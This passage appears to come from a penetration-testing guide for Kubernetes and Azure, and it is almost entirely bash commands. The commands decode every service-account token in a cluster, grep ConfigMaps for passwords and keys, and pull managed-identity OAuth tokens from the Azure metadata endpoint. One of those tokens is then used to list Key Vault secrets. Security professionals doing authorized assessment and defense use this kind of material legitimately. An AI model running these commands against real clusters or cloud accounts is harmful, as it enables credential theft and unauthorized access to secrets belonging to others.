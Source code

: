 **2. Service Account Secret Mining**

```bash
# Find service account tokens
kubectl get secrets --all-namespaces | grep "service-account-token"

# Extract service account tokens
for secret in $(kubectl get secrets -A | grep service-account-token | awk '{print $2 " " $1}'); do
    name=$(echo $secret | cut -d' ' -f1)
    ns=$(echo $secret | cut -d' ' -f2)
    echo "Secret: $name in $ns"
    kubectl get secret $name -n $ns -o jsonpath='{.data.token}' | base64 -d
    echo ""
done
```

**3. ConfigMap Data Extraction**

```bash
# List all ConfigMaps
kubectl get configmaps --all-namespaces

# Extract ConfigMap data
kubectl get configmap config-name -o yaml

# Look for sensitive data in ConfigMaps
kubectl get configmaps -A -o yaml | grep -i -E "(password|token|key|secret)"
```

### Azure Key Vault Integration Testing

**1. Azure Key Vault CSI Driver Assessment**

```bash
# Check for Key Vault CSI driver
kubectl get pods -n kube-system | grep secrets-store-csi-driver

# List SecretProviderClass objects
kubectl get secretproviderclass --all-namespaces

# Examine Key Vault integration
kubectl get secretproviderclass vault-secrets -o yaml
```

**2. Managed Identity Token Extraction**

If Azure Managed Identity is configured:

```bash
# Get managed identity token
curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true

# Extract token for Key Vault access
curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net" -H Metadata:true

# Use token to access Key Vault
TOKEN=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net" -H Metadata:true | jq -r '.access_token')
curl -H "Authorization: Bearer $TOKEN" "https://your-vault.vault.azure.net/secrets?api-version=7.0"
```
